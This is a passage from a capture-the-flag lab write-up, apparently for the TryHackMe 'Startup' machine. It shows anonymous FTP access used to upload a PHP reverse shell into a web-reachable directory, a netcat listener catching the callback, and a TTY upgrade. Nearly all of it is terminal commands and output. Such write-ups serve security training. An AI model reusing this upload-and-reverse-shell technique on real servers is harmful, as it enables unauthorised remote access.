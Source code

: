 ### Exploitation

Let's exploit this misconfiguration by uploading a copy of PentestMonkey's PHP reverse shell to the FTP directory:
```
┌──(ryan㉿kali)-[~/THM/Startup]
└─$ ftp 10.10.2.91
Connected to 10.10.2.91.
220 (vsFTPd 3.0.3)
Name (10.10.2.91:ryan): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||34911|)
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118             3 Nov 19 20:13 test.txt
226 Directory send OK.
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||32308|)
150 Ok to send data.
100% |********************************************************************************|  5526       17.56 MiB/s    00:00 ETA
226 Transfer complete.
5526 bytes sent in 00:00 (21.88 KiB/s)
ftp> bye
221 Goodbye.
```

Navigating to the file in the browser we trigger our shell:

```
┌──(ryan㉿kali)-[~/THM/Startup]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.6.72.91] from (UNKNOWN) [10.10.2.91] 42686
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 20:22:05 up 14 min,  0 users,  load average: 0.02, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
startup
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@startup:/$
```
